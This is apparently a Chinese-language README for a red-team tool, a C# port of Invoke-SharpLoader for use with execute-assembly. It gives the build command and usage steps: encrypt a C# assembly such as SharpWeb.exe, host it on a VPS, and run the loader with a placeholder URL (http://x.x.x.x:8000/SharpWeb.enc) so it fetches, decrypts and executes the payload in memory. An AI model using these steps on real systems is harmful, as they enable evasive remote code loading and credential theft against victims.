 原版项目：https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader

根据该项目改造为c#代码，以适配execute-assembly使用，更方便红队日常工作

项目编译

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe Invoke-SharpLoader.csproj


使用方法

需要先加密
Invoke-SharpEncrypt -file C:\c#程序集\SharpWeb.exe -password mypassword -outfile C:\c#程序集\SharpWeb.enc

放到vps的远端访问目录  

Invoke_SharpLoader.exe http://x.x.x.x:8000/SharpWeb.enc mypassword args
![image](https://github.com/user-attachments/assets/44dd4fec-c0fa-44d3-a038-04aac94b0052)

